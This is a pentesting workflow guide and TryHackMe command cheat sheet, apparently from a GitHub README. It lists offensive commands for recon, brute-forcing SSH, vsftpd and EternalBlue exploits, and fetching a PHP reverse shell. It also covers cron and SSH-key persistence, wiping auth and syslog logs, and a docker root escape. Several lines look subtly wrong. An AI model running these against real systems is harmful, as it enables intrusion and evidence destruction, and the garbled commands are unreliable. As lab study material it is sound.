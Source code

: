 ## Pentesting Workflow Steps

Refine your pentest engagements by following these core steps: Reconnaissance, Exploitation (Getting Shell), Post-Exploitation, and Cleanup (Clearing Fingerprints). Each phase includes typical tasks, tools, commands, and best practices.

---

### Step 1: Reconnaissance

**Objective**: Map the target’s attack surface.

1. **Passive Recon**

   * WHOIS lookup: `whois target.com`
   * DNS enumeration: `gobuster dns -d target.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1m.txt`
   * Certificate transparency: `curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value'`
   * Public code search: GitHub token leaks.

2. **Active Recon**

   * Ping sweep: `fping -a -g 10.10.2.0/24`
   * Service discovery: `nmap -sn 10.10.2.0/24`
   * Port scan: `nmap -sS -Pn target`
   * Banner grabbing: `nc target 80`

---

### Step 2: Exploitation (Getting Shell)

**Objective**: Gain initial access.

1. **Web Exploits**

   * Directory busting: `gobuster dir -u http://target/ -w wordlist.txt`
   * File upload: upload PHP shell (`php-reverse-shell.php`).

2. **Service Exploits**

   * FTP backdoor: `echo ":)" | nc target 21 && nc target 6200`
   * SSH brute-force: `hydra -l user -P rockyou.txt ssh://target`

3. **Metasploit**

   ```bash
   msfconsole
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOSTS target
   exploit
   ```

---

### Step 3: Post-Exploitation

**Objective**: Escalate privileges and maintain access.

1. **Shell Stabilization**

   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   Ctrl+Z; stty raw -echo; fg; export TERM=xterm
   ```

2. **Privilege Escalation**

   * LinPEAS: `./linpeas.sh`
   * SUID checks: `find / -perm -4000 -type f`
   * Manual sudo checks: `sudo -l`

3. **Persistence**

   * SSH key addition: `echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys`
   * Cron job: `(crontab -l; echo "* * * * * /path/to/backdoor") | crontab -`

---

### Step 4: Cleanup (Clearing Fingerprints)

**Objective**: Remove evidence of activity.

1. **Shell history**

   ```bash
   history -c && > ~/.bash_history
   ```

2. **Log tampering**

   ```bash
   > /var/log/auth.log
   > /var/log/syslog
   ```

3. **Artifact removal**

   * Remove uploaded shells: `rm /var/www/html/shell.php`
   * Delete tools: `rm ~/linpeas.sh`

---

*This streamlined workflow ensures structured operations from discovery to cleanup.*

---

## VM-Specific Command Cheat Sheets

Summarized most common commands encountered in popular TryHackMe walkthroughs.

### RootMe

```bash
nmap -sV 10.10.2.71
gobuster dir -u http://10.10.2.71/sitemap -w common.txt
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
nc -lvnp 1234
python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -perm -4000 -type f
python -c 'import os; os.execl("/bin/sh","sh","-p")'
```

### Basic Pentesting

```bash
nmap -sS -sC -A -p- <TARGET_IP>
gobuster dir -u http://<TARGET_IP>/ -w raft-small-words.txt
enum4linux -a <TARGET_IP>
hydra -l jan -P rockyou.txt ssh://<TARGET_IP>
wget http://<YOUR_IP>:8000/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
john --wordlist=rockyou.txt ssh2john id_rsa
```

### Mr Robot

```bash
nmap -sC -sV -oA scans/mrrobot 10.10.10.5
gobuster dir -u http://10.10.10.5 -w common.txt -t 50
searchsploit sudo 1.8.27
sudo -l
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Overpass

```bash
nmap -sV -p- 10.10.2.15
gobuster dir -u http://10.10.2.15/ -w medium.txt
docker ps -a
docker exec -it <container_id> /bin/sh
```

### Blue (EternalBlue)

```bash
nmap -p445 --script smb-vuln-ms17-010 10.10.10.3
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOST 10.10.10.3; exploit"
rdesktop 10.10.10.3
enum4linux -a 10.10.10.3
```

### Kenobi

```bash
nmap -sC -sV 10.10.2.11
gobuster dir -u http://10.10.2.11/ -w big.txt
ffuf -u http://10.10.2.11/FUZZ -w common.txt
hydra -l kenobi -P passwords.txt ssh://10.10.2.11
```

### Vulnversity

```bash
nmap -sC -sV 10.10.2.12
enum4linux -a 10.10.2.12
smbclient -L //10.10.2.12 -N
docker images
docker run -v /:/mnt alpine chroot /mnt /bin/sh
```

### Timelapse

```bash
nmap -sV 10.10.2.20
gobuster dir -u http://10.10.2.20/ -w small.txt
pspy -f /usr/bin/pspy &
cronjob -l
tail -f /var/log/syslog
```

*Keep this cheat sheet handy for quick reference during engagements.*
